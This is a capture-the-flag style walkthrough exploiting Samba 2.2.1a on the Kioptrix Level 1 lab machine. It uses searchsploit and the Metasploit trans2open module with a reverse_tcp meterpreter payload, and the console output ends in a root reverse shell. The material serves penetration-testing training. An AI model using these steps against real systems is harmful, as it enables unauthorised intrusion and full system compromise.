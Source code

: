 # Exploit SMB

## Exploit Kioptrix Level 1

### Attacking SMB

From Enumeration:

- Port 139 (SMB)
- 139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
- Unix (Samba 2.2.1a)

Research:

- Google search for Samba 2.2.1a exploit
- Exploit DB:
  - [Exploit 10](https://www.exploit-db.com/exploits/10)
  - [Exploit 7](https://www.exploit-db.com/exploits/7)
- Rapid7 (Metasploit):
  - [Rapid7 Exploit - Linux/Samba/Trans2open](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)

Note: The exploit targets a buffer overflow vulnerability found in Samba versions 2.2.0 to 2.2.8. It specifically exploits x86 Linux systems that do not have the "noexec stack" option set. Please note that some older versions of RedHat may not be vulnerable if they do not allow anonymous access to IPC. Confirm whether anonymous access to IPC is available.

---

#### Victim Information

- Victim IP: 192.168.247.129
- Attacker IP: 192.168.247.128

---
---
SEARCHSPLOIT <query>

searchsploit samba 2.2

Image

Probable 'trans2open' attack

BOOT UP METASPLOIT

Search for 'trans2open' inside Metasploit. During enumeration, a Rapid7 link was identified.

![Image](image 2.png)

During enumeration, it was identified that the system was running RedHat, indicating a Linux system. Choose option 1 for Linux x86.

View options.

Set RHOSTS <victim IP>.

Check if the IP was set.

bash

msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

bash

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
RHOSTS            yes              The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT             139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

yaml

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
LHOST             192.168.247.128  yes       The listen address (an interface may be specified)
LPORT             4444             yes       The listen port

Exploit target:

diff

Id  Name
--  ----
0   Samba 2.2.x - Bruteforce

scss

msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.247.129
RHOSTS => 192.168.247.129
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

bash

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
RHOSTS            192.168.247.129  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT             139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

yaml

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
LHOST             192.168.247.128  yes       The listen address (an interface may be specified)
LPORT             4444             yes       The listen port

Exploit target:

diff

Id  Name
--  ----
0   Samba 2.2.x - Bruteforce

NOTE >>> Default meterpreter ports will probably get picked up...

Run or exploit

![Image](image 3.png)

Sessions dying. Time to cancel and check options.

Second time checking options after payload did not work. Meterpreter offers payload options.

![Image](image 4.png)

Current payload is staged. See the ///

![Image](image 5.png)

Change payload to non-staged. Check with options.

Exploit!

![Image](image 6.png)

Reverse shell with root access!!!!



